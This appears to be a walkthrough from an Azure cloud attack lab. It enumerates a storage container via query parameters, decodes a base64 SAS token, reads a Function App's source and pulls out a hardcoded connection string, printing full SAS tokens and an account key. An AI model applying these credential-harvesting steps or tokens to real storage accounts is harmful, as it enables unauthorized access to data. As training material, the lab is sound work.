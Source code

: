 # Attack Lab 26


```
− Gain access to a Storage Account by leveraging SAS Token by leveraging the information extracted from the inbox of Marie Williams.
− Read the Source Code of the Function App from the Azure Files and extract the connection string for Storage Account.
```

Try to access to the email link found on Marie email:

```
Dear Marie,

Your documents are uploaded and approved. You can find the documents here - https://billingprocessorstg.blob.core.windows.net/mariewilliams

In case of any changes, please upload the documents again and submit a new request.


Regards,
```
Web access:
```
<Error>
<Code>ResourceNotFound</Code>
<Message>The specified resource does not exist. RequestId:f0bab61d-501e-0012-22b5-fd1bc6000000 Time:2023-10-13T09:15:08.8791151Z</Message>
</Error>
```
With additional querystring parameters:

```
https://billingprocessorstg.blob.core.windows.net/mariewilliams?restype=container&comp=list
```
Response
```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<EnumerationResults ContainerName="https://billingprocessorstg.blob.core.windows.net/mariewilliams">
<Blobs>
<Blob>
<Name>mapped.xml</Name>
<Url>https://billingprocessorstg.blob.core.windows.net/mariewilliams/mapped.xml</Url>
<Properties>
<Last-Modified>Wed, 11 Oct 2023 11:20:39 GMT</Last-Modified>
<Etag>0x8DBCA4C199BB41B</Etag>
<Content-Length>411</Content-Length>
<Content-Type>text/xml</Content-Type>
<Content-Encoding/>
<Content-Language/>
<Content-MD5>1Rbf9T4TjgxZDumuVadM2w==</Content-MD5>
<Cache-Control/>
<BlobType>BlockBlob</BlobType>
<LeaseStatus>unlocked</LeaseStatus>
</Properties>
</Blob>
</Blobs>
<NextMarker/>
</EnumerationResults>
```
Mapped.xml for API endpoint:
``

https://billingprocessorstg.blob.core.windows.net/mariewilliams/mapped.xml
```
Response:
```
<FileShare>
<Name>billingprocessor9a71</Name>
<Url>https://billingprocessorstg.file.core.windows.net/billingprocessor9a71</Url>
<Properties>
<Content>P3N2PTIwMjItMTEtMDImc3M9ZiZzcnQ9c2NvJnNwPXJsJnNlPTIwMjQtMDItMjlUMjA6MTc6NDZaJnN0PTIwMjMtMTAtMDFUMTE6MTc6NDZaJnNwcj1odHRwcyZzaWc9Um41SWV5eE0zSVZ6ckRTNTFPOHlQYTB0WmY3QzZWOEFvUm81TE5ScllOayUzRA==</Content>
</Properties>
</FileShare>
```

complete urld etected:
```
f0ns1@f0ns1-msi:~$ echo "P3N2PTIwMjItMTEtMDImc3M9ZiZzcnQ9c2NvJnNwPXJsJnNlPTIwMjQtMDItMjlUMjA6MTc6NDZaJnN0PTIwMjMtMTAtMDFUMTE6MTc6NDZaJnNwcj1odHRwcyZzaWc9Um41SWV5eE0zSVZ6ckRTNTFPOHlQYTB0WmY3QzZWOEFvUm81TE5ScllOayUzRA==" | base64 -d
?sv=2022-11-02&ss=f&srt=sco&sp=rl&se=2024-02-29T20:17:46Z&st=2023-10-01T11:17:46Z&spr=https&sig=Rn5IeyxM3IVzrDS51O8yPa0tZf7C6V8AoRo5LNRrYNk%3Df0ns1@f0ns1-msi:~$ 

https://billingprocessorstg.file.core.windows.net/billingprocessor9a71?sv=2022-11-02&ss=f&srt=sco&sp=rl&se=2024-02-29T20:17:46Z&st=2023-10-01T11:17:46Z&spr=https&sig=Rn5IeyxM3IVzrDS51O8yPa0tZf7C6V8AoRo5LNRrYNk%3D
```
Using Azure FIle connector Software:
_init_.py
```
import logging

import azure.functions as func


def main(req: func.HttpRequest) -> func.HttpResponse:
    logging.info('Python HTTP trigger function processed a request.')

    connection_string = "https://phcbillingstorage.blob.core.windows.net/?sv=2022-11-02&ss=b&srt=sco&sp=rltfx&se=2024-03-29T20:32:05Z&st=2023-10-01T12:32:05Z&spr=https&sig=pCWp4V0bad2eao9hXvcddvu5bpttA%2F45tm%2FAqC66vJo%3D"
    from azure.storage.blob import BlobServiceClient
    blob_service_client = BlobServiceClient.from_connection_string(self.connection_string)

    # Get account information for the Blob Service
    account_info = blob_service_client.get_account_information()

    return func.HttpResponse(f"{account_info}")

```
config.json
```
{
  "bindings": [
    {
      "authLevel": "function",
      "type": "httpTrigger",
      "direction": "in",
      "name": "req",
      "methods": [
        "get",
        "post"
      ]
    },
    {
      "type": "http",
      "direction": "out",
      "name": "$return"
    }
  ]
}
```
hosts.json:
```
{
  "version": "2.0",
  "extensionBundle": {
    "id": "Microsoft.Azure.Functions.ExtensionBundle",
    "version": "[2.*, 3.0.0)"
  }
}
```
Primary key:
```
Eby8vdM02xNOcqFlqUwJPLlmEtlCDXJ1OUzFT50uSRZ6IFsuFq2UVErCz4I6tq/K1SZFPTOtr/KBHBeksoGMGw==
```
Primary connection String:
```
AccountName=devstoreaccount1;AccountKey=Eby8vdM02xNOcqFlqUwJPLlmEtlCDXJ1OUzFT50uSRZ6IFsuFq2UVErCz4I6tq/K1SZFPTOtr/KBHBeksoGMGw==;DefaultEndpointsProtocol=http;BlobEndpoint=http://127.0.0.1:10000/devstoreaccount1;QueueEndpoint=http://127.0.0.1:10001/devstoreaccount1;TableEndpoint=http://127.0.0.1:10002/devstoreaccount1;
```
Permissinos:
```
Full
```
